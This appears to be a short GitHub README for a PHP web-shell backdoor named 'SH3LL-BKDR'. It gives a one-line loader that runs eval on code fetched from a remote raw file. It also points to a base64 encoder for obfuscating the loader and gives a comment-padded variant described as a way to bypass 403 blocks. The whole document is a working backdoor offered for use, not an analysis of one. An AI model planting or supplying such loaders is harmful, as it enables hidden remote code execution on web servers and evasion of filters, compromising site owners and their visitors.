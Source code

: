 ## SH3LL-BKDR

### Usage
```
<?php eval("?>".file_get_contents("link_raw.php"));?>
```
### Encrypt base64
* [Click here](http://phpencoder.atwebpages.com/index.php)
### For bypass 403
```
<?=/****/@null; /********/ /*******/ /********/@eval/****/("?>".file_get_contents/*******/("link_raw.php"));/**/?>
```
